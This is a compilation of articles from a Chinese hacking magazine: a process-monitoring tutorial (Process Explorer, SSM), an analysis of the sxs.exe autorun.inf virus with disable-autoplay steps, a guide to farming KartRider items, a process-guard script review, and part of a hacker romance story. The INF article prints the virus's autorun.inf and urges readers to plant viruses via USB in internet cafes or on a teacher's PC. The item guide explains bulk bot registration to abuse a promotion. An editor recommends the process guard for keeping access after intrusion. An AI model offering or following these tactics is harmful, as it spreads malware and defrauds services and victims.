

图 8 SSM 提示有应用程序活动



图 9 出现错误提示



图 10 使用右键设置规则

再介绍一个更为强大、可以替代 Windows 资源管理器的进程管理软件：Process Explorer。它是一个国外的软件，不过不要担心，已有热心的朋友给我们汉化了。如果第一次使用 Process Explorer，字体看着十分不舒服，请到菜单“选项”->“字体”中设置字体为 9 号“宋体”，以后使用就没问题了，如图 6。

首先了解下工具栏的功能，依次为：保存进程映像、刷新进程、系统信息（类似于管理器的“性能”）、显示进程数、隐藏下方窗口、查看句柄/DLL、属性、终止进程/关闭句柄、查找 DLL、查找句柄（查找 DLL 和句柄功能方面，我们可以轻松地找到某个进程加载的 DLL 或句柄）、查找相应窗口的进程（直接拖动）。

程序默认显示的是没有“用户名”，在分类条点右键（或“查看”）选择“选择列”，里面可以修改很多，如图 7。

如果觉得软件描述得不太全面，Process Explorer 还提供让大家直接在搜索页面搜索信息。在进程上点右键，选择最后的“Google”。程序提供了 Google 和 MSN 两种方式，在“选项”->“选择搜索引擎”更改。

Windows 任务管理器的功能它也可以实现，而且更为全面。如果你要替换 Windows 任务管理器，在“选项”里选择“替换任务管理器”，下次再按 Ctrl+Alt+Del 等快捷键时启动的就是 Process Explorer 咯。

Process Explorer 不愧是专业软件，但有时我们没有那个时间进行判断，怎么办？如果有一个能像天网防火墙那样许可连接网络的软件多好，可以设置任何启动运行的程序的允许性。幸运的是，前一段时间我的机器中了流氓软件，“反毒先锋”的版主 yacou 给我介绍了一个很好的软件：System Safety Monitor（以下简称 SSM），我称它为软件防火墙，我使用的是 2.0 免费版。通过上面的介绍大家应该对进程有进一步的了解了，注意使用这个软件需要有一定的进程基础。

虽然它是国外软件，但里面有中文语言包。安装完后需要重新启动计算机，启动后运行它，首次运行可能会出现很多提示窗口，并且默认是英文界面（这里不再贴出英文的图，大家根据图 8 了解吧），这是不是类似于网络防火墙提示的允许提示窗口？现在我们要做的就是选择中文语言包，但是不选择这些提示是无法选择的，所以我们先都选择 OK，下面我们再重新设置。直到没有提示再出来，在托盘找到图标，右键点击，选择“Preferences...（首选项）”，在弹出的主窗口选择倒数第 2 项“Options（选项）”，看到“Language”了吧，赶紧地恢复我们熟悉的方块字吧~最后一定要选择“Apply options”才能生效。

我建议选上“自动启动”，SSM 的启动方式优先于所有的其他程序，不管任何程序运行都要经过它的手。无论是后台启动程序还是手动启动程序都有提示（除了已经作出判断的），如图 8。

上面的程序为父级程序，下面的是子级程序。即下面的程序是通过上面而运行的。启动使用的技术会在技术信息里面说明。点击“定位”进入程序所在的路径（如果在“选项”的“杀毒软件”选择了杀毒软件，“定位”会变成扫描）。程序的信息都有了，运用自己所学的知识来判断允许还是阻止就非常容易了，而且在有提示框情况下，是无法操作其他程序。SSM 真的是很强悍啊！

“哎呀，怎么出现这个提示啊，没权限运行啊？刚刚还能用呢...”如图 9。

这是因为你设置了错误的规则，那么怎么重新配置？还是“Preferences...（首选项）”，打开“规则”选项卡，我们看到的进程信息有进程路径、类型、规则和 MD5 值。操作很简单，点击右键即可，如图 10。

点击“Process Monitor（进程监视器）”查看当前运行的进程，同样是右键操作，不再重复。

注意虽然很多程序都是依靠 svchost.exe 运行，但不能禁止它，否则会出现“冲击波”的状况！还有 services.exe 以及其他某些系统进程。

除了这些功能，SSM 还提供一些特殊监控功能：注册表、INI 文件、开始菜单、服务、IExplorer、窗口过滤，如图 11。



图 11 SSM 的注册表查看功能

默认是禁止的，想要全部启动直接在左边的列表点右键，选择“启动/禁止所有模块”；如果是单个启动，就要先选中你要启动的模块，再点右键选择第 1 项即可。每个模块右边更有详细说明，真是太厉害了。若你要添加新的规则，也是右键。

SSM 还提供报警提示。遗憾的是，没有可疑进程运行时，它依然也要提示，这点会比较烦。

以上软件用于对付盗号、木马这一类的软件，可以使用“netstat -abnov”命令和天网；而用于对付流氓软件，则用 Windows 优化大师自带的进程管理软件、Process Explorer 和 SSM。

### 四、其他防护软件

对付木马、病毒，主要是流氓软件，大家还可以使用下面的软件（基本上都是最新版的）：

- 360 安全卫士 2.0
- IceSword 1.18
- Unlocker 1.8.5 多国语言版
- KillBox 2.0.0.648 汉化版
- WinPatrol 10.0.5.0 汉化增强版
- Universal Extractor 1.3.1 汉化版

## 五、总结

实话告诉大家吧，我平时没事干，总习惯性地调出任务管理器，查看当前都有什么进程在运行。久而久之，练就了一双火眼金睛。记得有一次中了流氍软件集合，大概有 7-8 个，花了 1 分多钟就全部解决了，当时使用的软件就只有任务管理器、Msconfig 和 regedit。

当然，我们不可能记住所有进程。我们可以通过网络搜索或者登录 http://www.dofile.com ——专业的进程知识库网站，这个网站提供关于“进程知识库”电子书下载，提供了大多数常见的进程知识。这里的分类包括：存在安全风险进程列表、系统进程列表、应用程序进程列表、其他进程列表和最近才新增加的 DLL 文件列表。并且提供在线更新，由于电子书比较大，请大家自行下载。

如今还和几年前一样，无论是木马、病毒还是现在的流氓软件，电脑用户都是厌恶至极。希望大家通过本文的学习能了解进程，能通过自己的思维来判断进程的真伪。

> [文章中涉及到的 Process Explorer 和 SSM 2.0 免费版在光盘中有收录]

## 编辑点评

作者从进程的概念到可疑进程的查找，再到几种进程查看/管理工具的利用，给我们展示了一篇比较完整的进程文章。进程这个东西我们天天接触，太多相似的进程名常常让我们在结束与保留之间徘徊，而和系统进程名类似甚至同名则是病毒最常利用的伪装方法了。一旦我们掌握了基本的可疑进程查找方法，就可以根据病毒的一些特征轻易结束它们的进程，进而查找到硬盘文件杀之。小编推荐先用作者提到的系统自带的那些工具排出可疑进程，熟练后就可以直接使用后面的工具了，这样可以提高你的能力！

## 由 INF 文件想到的

落花无痕

**从本文中你可以学到：**
**关闭 autorun 文件自动播放功能的方法**

### 一、前言

前段时间非常流行一种叫 sxs.exe 病毒，它是利用可移动磁盘（U 盘和 MP3 居多）传播的。那么，为什么它会这么盛行呢？现在网上很多人都把这种病毒叫：sxs.exe 和 autorun.inf 病毒。“.inf”文件什么时候变成病毒了？那么，什么是 inf 文件呢？

INF 文件全称是 Information File，是 Windows 操作系统下用来描述设备或文件等数据信息的文件。INF 文件是由标准的 ASCII 码组成，我们可以利用任何一款文字编辑器查看和修改其中的内容。

由于之前有人在“黑手”发表了 inf 文件语法格式的解说，详情大家可以看 2006 年 12 月《黑客手册》“浅说 AutoRun”这篇文章，这里不再赘述。

这里为“浅说 AutoRun”做一点补充，以 sxs.exe 病毒的 autorun.inf 为例子。

```text
[AutoRun]
open=sxs.exe
shellexecute=sxs.exe
shell\Auto\command=sxs.exe
```

当 U 盘连接到电脑上且在我们打开可移动磁盘 U 盘的时候，执行 sxs.exe，并把 sxs.exe 写入注册表的 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2\{affe3368-77ad-11db-b7b1-000fea3cd85a}\Shell\Auto\command 和 HKEY_USERS\S-1-5-21-725345543-1682526488-2146263445-100\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2\{affe3368-77ad-11db-b7b1-000fea3cd85a}\Shell\Auto\command 项下。affe3368-77ad-11db-b7b1-000fea3cd85a 这个是什么东西我不知道，网上找不到，有知道的告诉我哈（小编：这个是 CLSID，类标识符）！之前我并不知道 shell\Auto\command=sxs.exe 的意思，



图 1 写入注册表项

所以，我猜想可能是把文件写进注册表，以便每次开机可运行它，所以我做了一次测试，把 Auto 改成 huafeihua，因为包含 Auto 的项太多了，如果真写进注册表了，用 huafeihua 到注册表搜索一下，就比较容易找到这个项了，如图 1。

我通过这么测试，从而得出以上的结果。

## 二、INF 文件攻与防

### 1、攻篇——纸上谈兵

既然知道了原理。那么，我就可以利用 INF 的可指定自动运行文件的这一特性来做一些攻击。比如，在网上挂上 sxs.exe 病毒，如果用户访问了被挂马的站，那么未打补丁的机器可能会中毒。以后，有 U 盘放到这机器上的时候，SXS.EXE 会自动写一个 sxs.exe 和 autorun.inf 文件到用户的 U 盘中，之后，用户在其他电脑上使用 U 盘的时候，也可能使另外的机器中毒。这种攻击方式需要先入侵网站作为前提。

当然，还有另一种办法，不管多菜也会了。就是把你的病毒或者木马程序，比如 nohack.exe 放到 U 盘中，然后，写一个 U 盘的 autorun.inf 文件，指定 nohack.exe 运行。然后大胆地摆到网吧去，随便找台机器一插，打开 U 盘，就可以了，这样的方法是比较安全的，万一网管发现机器中毒，你也可以推得一干二净了。

另外，比如，现在大学都采用多媒体上课，如果你看那老师不爽或者你不想上课，你可以事前先准备好破坏性的病毒和 autorun.inf 文件放入 U 盘内，然后装作很有学习热情的样子，跑到老师前，跟他说你要下课件，那么 U 盘一插，打开 U 盘。然后呢，就装傻吧……

### 2、防篇——实际行动

原理知道了，怎么防就一目了然了，我们只需要禁止自动运行。先来看看如何用兔子来禁止光盘的自动运行和 U 盘的写入。

在超级兔子魔法设置里，打开“文件和媒体”，如图 2。

去掉“自动运行光盘”和“自动播放音乐 CD”，再切换到 U 盘选项卡，如图 3。

把禁止 U 盘写入功能打上勾。如果觉得这样还不够保险的话，就用组策略来禁止。

在“开始”菜单的“运行”中输入 gpedit.msc，然后定位到“本地计算机策略 - 用户配置 - 系统”，如图 4。

双击“关闭自动播放”。弹出“关闭自动播放”属性对话框。选择“已启用”单选框。然后，在“关闭自动播放”的下拉列表框中选择“所有驱动器”，如图 5。

点确定，这样就把自动播放完全禁止掉了。

## 三、新年祝福

祝《黑客手册》越办越好，越办越火。

祝手册的编辑和读者朋友们：圣诞快乐，新年快乐，身体健康，事事顺心。

[文章中涉及到的工具超级兔子在光盘中有收录]

## 编辑点评：

文章中提到的病毒前一阵很是嚣张，小编遇到不止 N 次。其实这个病毒叫 Autorun 风暴，主要的传播途径就是可移动介质，比如 U 盘、MP3、手机的 MMC 卡等。使用防篇的方法不过是亡羊补牢，我们先得把硬盘清理干净。病毒文件存在于每个驱动器的根目录下，设置“文件夹选项”显示所有文件和文件夹，病毒文件就原形毕露了。具体的清理方法网上有文章，大家尝试手工清理，很简单的！

## 跑跑卡丁车道具大丰收

### 从本文中你可以学到：

- 利用免费活动的小疏忽疯狂刷取跑跑卡丁车的基本道具

前一阵子，朋友之间流行起玩“跑跑卡丁车”，我也凑热闹玩了起来。光玩游戏不过瘾，看见里面的道具挺吸引人的，我想就算是有张人物属性卡给我用一天也就知足了。可是摸摸口袋，连半分钱也找不到。

就在前些天给朋友开通免费 3DQQ 秀的时候，在（http://www.icoke.cn）看到可以用 iCoke 积分兑换跑跑道具的广告。实在惊喜，进去逛了一圈，果然有免费道具可以领取。以下是活动地址（http://www.icoke.cn/prize/ico_prize_KartRider.aspx），如图 1。

通过这个活动我们可以注册会员，然后使用自带的 100 积分就可以领取，完全免费。因为积分有限，这次丰收的道具只有“粉红色心形气球”、“道具换位卡”、“人物属性卡”和“回放摄像头”。

文章不会到此结束了吧，不会的，还没大丰收呢！

通过上面我们已经基本知道了领取的过程了。但是一次只能领取 10 个气球或者 1 天的属性卡，好像不够我们用的。但是经过我的试验得知，这次活动并没有对一个跑跑号领取道具的次数做限制，所以使得我们有机可乘。拿出我们原来用来申请 QQ 情侣号的武器，用这个工具来注册会员，如图 2。

填写好注册信息，账号前缀最好填写不易和别人重复的。然后点击“开始”，上面会出现验证码。按照提示填写后，确认。然后又会出现申请 QQ 号的验证码，什么也不用填，直接确认（因为现在 QQ 连号已经不能申请，所以不用注册 QQ 号）。这样就注册成功了，然后继续申请第 2 个号。这样比起自己在网站上申请要快多了！不一会儿工夫，如图 3，已经注册了很多了。最前面是账号，后面是密码。至于再后面的错误就不用管了。

快点登录网站领取吧，用刚才申请的会员号登录。选择第一个“可口可乐时尚包”，然后进入，选择你需要的道具，选择兑换，如图 4。

确认后出现“兑换券编号”，如图 5。

把它复制到一个文本文档中。然后分别登录你申请的其他账号，分别获得兑换券编号，都记在文本文档中，以便在游戏中使用。

进入游戏，为方便输入兑换号领取道具，游戏使用窗口化（进入游戏后按 F11 即可，桌面分辨率最好为 1024×768）。下面在商城左下方找到“使用兑换券”，如图 6。

进入后输入刚刚得到的兑换号，如图 7。

难道 25 位的号码要手工打上么？我试了试鼠标右键不能用，Ctrl+V 也没效果。在我无聊地狂点鼠标时发现，复制了编号后，在这里按住 Ctrl，在框内单击鼠标左键就把编号复制上了。狂喜，确定后就领取成功了。别急，这次刚领取了 10 个气球。把刚刚其他的编号也拿出来，分别兑换，如图 8。

这里连兑换次数的限制也没有，所以我们就可以道具大丰收喽。一次 10 个气球，多弄几次，气球就随便你拿啦。有时间的话，甚至弄上几百个。还有人物属性卡这类时间限制的东西，一个编号就可以增加一天的时间，只要你有时间就行了。1 天的属性卡就 10 个游戏币呢，能省不少钱的！

[文章中涉及到的工具 iCokeQQReg.exe 在光盘中有收录]

## 编辑点评：

对于时下正流行的网络游戏泡泡卡丁车的玩家来说，这篇文章可算是福音了，尤其是对初级玩家来说可以用不少时间提前体验使用道具的乐趣。小编没有玩过卡丁车，不过寝室中有几个小儿子，嘿嘿，用这个方法去叫他们请我吃饭！

## 进程终极保护者

icyleaf

### 从本文中你可以学到：

- 一种简单的保护进程的方法

进程是程序在计算机中的一次执行活动。当你运行一个程序，你就能启动一个进程。我们通常将计算机进程分为系统进程和用户进程。一个是用来让系统有基本的支持环境；一个是随时可以创建关闭，不会对系统产生影响的进程。

大家经常研究哪些进程是伪装、假冒的，今天我带给大家的是如何保护进程。鼎鼎大名的“广外女生”大家应该听说过吧，首次具有封杀防火墙、杀毒软件的功能。虽说现在已经不怎么用到这款木马，但这个技术一直在使用。如何简单有效地使进程在我们的机器中为我们护卫？难道我们要自己编写一个软件？这已经涉及到不少 API 函数，像我等菜鸟如何编写？还好，我们的心声有人知道。

### isRun——进程守护程序，功能是：

- 1、可以守护一个或多个进程（包括应用程序和服务），保证其一直运行。
- 2、守护程序互相保护，以防被他人终止。

仅使用两个几十行代码的 VBS 文件就全部实现了我们想要的功能，使用起来也很方便。

打开 config.ini 配置文件，按照提示添加想守护的进程，其中监控时间和进程数目按默认就行，这并不影响计算机的 CPU 占用率（；后面为注释）。

```ini
[Config]

;Interval: 隔多长时间监控一次，单位为秒。
Interval = 1

;FileName是进程名（以任务管理器中显示的“映像名称”为准）。
;StartCMD是启动程序或服务的命令，可带参数，长文件名用引号引起来。
;Num 是该进程的数目，一般为1。

FileName = notepad.exe
StartCMD = notepad.exe
Num = 1

FileName = McAfee Framework 服务
StartCMD = McAfee.exe
Num = 1
```

设置完成后，直接保存（直接 Ctrl+S 也可以）。然后点击 start.exe 就开始守护咯~ 如果要停止，运行 stop.exe 文件。倘若你在保护状态下直接修改了 config.ini 配置文件，只要运行 restart.exe 文件重启守护程序才可生效。

上面是设置保护文件，还有一处可设可不设。双击 isRun.exe，如图 1。

内容也一目了然，我也不再多说。

图 1 Windows 脚本宿主设置

最后说明一点，被保护的程序必须是只能运行一次的程序。要不被保护的程序会以你设置的监控时间不断地运行。

[文章中涉及到的工具 isrun 在光盘中有收录]

## 编辑点评：

很实用的一个东西，在入侵后的权限保持中比较有用。不过显然它还是会出现在任务管理器中的，如果把进程保护和进程隐藏结合在一起的话，那恐怕被入侵的朋友会很痛苦了！

周五晚上宿醉，于是周六白天在屋子里裹着被子一边上网一边听水木年华的《新年快乐》，顺便拿起手机给朋友打电话，询问元旦放不放假。恍然发现一只胖乎乎的小猪在我的 QQ 上不停地闪着，忽然想起猪年要到了。于是善心大发地在中午吃饭的时候没有要荤菜，而晚饭也改成了涮羊肉（小羊：咩……当我两个角是吃素的么）。晚上接到高中时候暗恋的女生发来短信，激动得魂不守舍，没想到人家开口就直接问我班上一个帅哥的手机号码……啊#￥%*，07 年新年愿望：神啊，请给我找一个漂亮的黑客恋人吧。

## 我的黑客恋人

dark follower

若雨把馒头递给了我，脸上写满了阳光般的笑容：“秋男，给你！”

我看着她清澈的眼睛，搞不懂她只吃一个馒头怎么会饱，我摸了摸她的头说：“若雨你没事吧？是不是病了？”

若雨撅起了嘴巴说：“你可够坏的了，总是诅咒人家生病，难道看到我身体健康你不高兴吗？”

我咧开嘴巴尴尬地笑了笑说：“不是，我问你为什么吃得这么少？”

若雨把头抬得高高的，自豪地说：“谁像有些人是饭桶啊，我吃一个馒头就已经吃得饱饱的了。我这是不想浪费粮食所以才把我剩下的给你。你还以为我多疼你啊？”

我笑了，我知道她是疼我的。在这个世界上她是最疼我的。我也知道她根本就没有吃饱，这是心疼我而已。我笑着接过馒头，在她的身后含着眼泪把那个馒头吃了下去。

若雨和我是在同一个孤儿院的，我和她都是孤儿。不同的是她从生下来就是孤儿，而我是亲眼看见父母血肉模糊地被抬到了医院，然后又被送进火葬场，剩下孤单的我留在这个世界上。有时我在想若雨是幸福的，虽然没人像父母那样疼过她，但是也不会亲眼看到至亲永远地离开自己。至少还有我疼她。

我到孤儿院的时候是个胆怯而又孤单的小孩子，只有若雨拉着我的手，站在很多小孩子面前，对大家说：“秋男是我的好朋友，谁要是敢欺负他，我就揍死他。”我还记得那个时候若雨咬着小牙，恶狠狠的样子，我小小的心因为若雨而温暖着。从此若雨是我生活的精神支柱，我的靠山。

从小到大我们一直都没有分开，就算是高考都是两个人商量好去哪个学校，为的就是不想分开。不知从什么时候起孤独的我开始整天研究一些代码和软件。因为我觉得在这里才有最真实的自我，也是在这里我才不用戴着虚伪的面具，孤独地冷酷着。

一开始的时候若雨很担心我，见面只要说话就会叫我不要沉迷于网络，学习是为了考大学，将来我们要好好地生活。但是她发现活在我这里是耳边的一阵风的时候，只能感叹着放弃了我。在她那一声叹息的时候，我轻轻地扭过头看见她眼里有着晶莹的光点在闪动。我很想告诉她，我不会违背和她在一起的承诺，但是我也同样不愿意失去自我的空间，但是这些话她能明白吗？

若雨的成绩在学校里是首屈一指的，所有的老师和同学把她当作神童一样看待。而我在老师同学心中已经定位成了一个不折不扣的不良少年。我轻声地叹息着，一个人如果所做的没有符合大家的标准就会被划分成一个异类，就是错的。我笑，不知道什么时候我已经学会这么虚伪地笑了。

我可以不去理会别人，但是我要若雨一个人的理解。我把馒头吃完，抬起头微笑着看若雨。若雨又是一声长长的叹息：“秋男，从小到大我一直相信你，这次我也一样相信你并没有浪费自己的青春，但是你要答应我，一定要和我考进同一所大学。如果没有你，我会觉得失去什么。”

若雨其实是个很漂亮的女孩子，她和我一样都长大了。说话的口吻越来越像个成年人，就连叹息也学会了。我眯着眼睛笑着说：“知道了，老太婆！”她笑了。小的时候她经常笑，但是现在她很少笑了也很少哭了。不过她最拿手的就是笑里藏刀，幸好我比较了解她，所以在她的魔爪还没有抓到我脖子的时候已经逃之夭夭了。气得她对我瞪着眼睛，咬着牙大喊大叫：“秋男，你把我那个馒头吐出来！”

我逃出了若雨的手掌心，直接跑去了网吧。我打开自己的网盘拿出了工具准备对学校的网站进行无情的摧残。大脑里还在不断出现若雨的话，像我这样有可能考上大学吗？我苦笑着摇摇头，算了，不去想了。还是查找一下学校服务器的漏洞吧！

我进入学校网站的后台，见上面写着几个大字：“蓝色尘埃，你来晚了一步，我比你先到。在网上大家把你说得跟个神似的，我看也不过如此嘛，哈哈。”落款是吸尘器。最下面是一个 E-mail 地址。我突然感觉这个人是专门针对我的，不过他也太了解我了吧！他怎么知道我要入侵学校的网站？我的名字叫蓝色尘埃，他就叫吸尘器，很明显是对我的挑战嘛！

我马上给这个人写了一封信，讥讽地赞扬了一番，不过也下了战书。我想知道这个人到底算不算是一个高手，我也不想输得不明不白。他回复得很快，并且给我发过来一个网站说：“如果你能在一个礼拜之内找到这个网站的漏洞，那么我就认输！”我轻声地笑，看来这个家伙太小看我了。区区一个动画的论坛而已嘛，对于我来说太简单了。我连忙回了邮件，答应了下来。

以后的日子我没有再轻敌，而是仔细地研究了一下那个网站。对网站扫描的结果让我很失望，居然没有找到一个漏洞！我觉得这个“吸尘器”绝对不是一个简单的人物。看来他是有备而来。如果不是若雨及时给我送东西过来，我想我会被饿得半死。若雨坐在我的身边，我知道她的眼睛一刻也没有离开我疲惫颓废的面孔，她了解我对电脑的热爱，只是留下一声重重的叹息，我不敢看她的眼睛。因为我知道她的眼中一定充满了失望。我想我已经离她的希望越来越远，已经没有办法回到起点了。我望着她的背影在心里说着对不起。但在我转身望着电脑那一刻，我再也没有什么值得后悔的了。

我不知道自己这样算不算热爱。但是面对“吸尘器”的挑战，我真的是无法抗拒。

第七天我没能入侵那个网站，我重重地跌坐在网吧的椅子上，闭上了眼睛承认自己的无能。我发了邮件给“吸尘器”，向他宣布我的失败，同时虚伪地祝贺了一下，感觉心里从来没有过的空洞。我失魂落魄地走出网吧，外面的阳光有些刺眼，我把所有的钱挥霍在了网络上，也挥霍了若雨对我所有的期望，我没有任何的颜面再回到学校。

一个人跑到城外护城河的桥上，在那里从天黑一直坐到天亮，我在思考这么做是为了什么？难道是网络造成了我这一种争强好胜的心态？我不知道，我用最后的十元钱买了烟，一整夜都呆在烟雾里。

天亮的时候下了很重的大雾，打湿了我薄薄的衬衫。突然感觉有人轻轻地为我披上了衣服，又轻声地说：“你一直在这儿？知道吗？我找了你一晚上。”

我回头看到眼前因为着急而哭红了眼睛的若雨，看着她被雾水打湿的发帘。我的心被震撼了，原来她一直都这么担心我。可是我透过她单薄的身形，看到了一个帅气的男孩子站在身后。同样是着急的眼神，也有着同样被雾水打湿的刘海。他冲我友善地一笑，却让我心酸得快要落泪了。他陪着若雨找了我一夜。

我最终还是没有和若雨一起回到学校，因为我觉得那里已经没有我的希望了。就算是考上了大学又能怎么样？我只能看着若雨和其他的男孩子在我的面前用盐水一遍遍地冲刷我的伤口。

我开始入侵网吧的管理系统，而我上网根本不需要花钱。原因有两个，第一，我是搞黑客入侵的，上网花钱是很丢人的事情。

第二，我没有钱，微薄的生活费根本不够上网的。所以不知道从什么时候开始，我上网已经不需要花钱了。

其实我知道有人会发现我的。这一天我和平常一样进入了网吧的万象管理系统，突然我的屏幕上出现了几个大字：“我是这里的网管，我不想揭穿你，但是请你适可而止。”我被吓了一跳，连忙从系统里出来。然后关了机，走到吧台结账。结完账，我微笑着对网管说：“谢谢你，你是个好人！”网管惊讶地看着我，好像根本就不知道我在说什么。他的表情让我迷茫，难道警告我的人根本就不是网管？我迷惘地走出了网吧。

